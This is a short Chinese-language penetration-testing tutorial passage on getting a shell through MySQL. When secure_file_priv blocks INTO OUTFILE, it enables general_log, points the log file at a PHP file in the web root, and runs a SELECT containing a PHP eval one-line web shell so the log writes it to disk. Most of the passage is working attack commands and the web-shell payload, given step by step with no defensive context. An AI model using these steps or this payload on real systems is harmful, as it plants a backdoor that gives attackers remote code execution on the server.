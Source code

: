 

**secure_file_priv:**

![](http://image.xpshuai.cn/img/image-20220119190851930.png)



**into outfile:**

![](http://image.xpshuai.cn/img/image-20220119190916033.png)



#### 方法一：general_log

1.查看secure_file_priv值

```bash
show global variables like '%secure_file_priv%';
# show global variables like '%secure%';

# 此开关默认为NULL，即不允许导入导出
# 没有具体值时，表示不对mysqld 的导入|导出做限制
# 值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下

```



2.查询操作日志存放路径

```bash
show variables like 'general_log%';

# 操作日志默认也是关闭的

```

3.首先打开操作日志记录

```bash
set global general_log = 'ON';

```



4.设置操作记录日志路径

```bash
# set global general_log_file='路径地址';
# 选择网站的目录里面
set global general_log_file='D:\\phpstudy\\PHPTutorial\\WWW\\xx.php'

```

5.执行sql语句，mysql会将执行的语句内容记录到我们指定的文件中，就可以getshell了

```bash
select '<?php @eval($_POST[1]);?>';

```
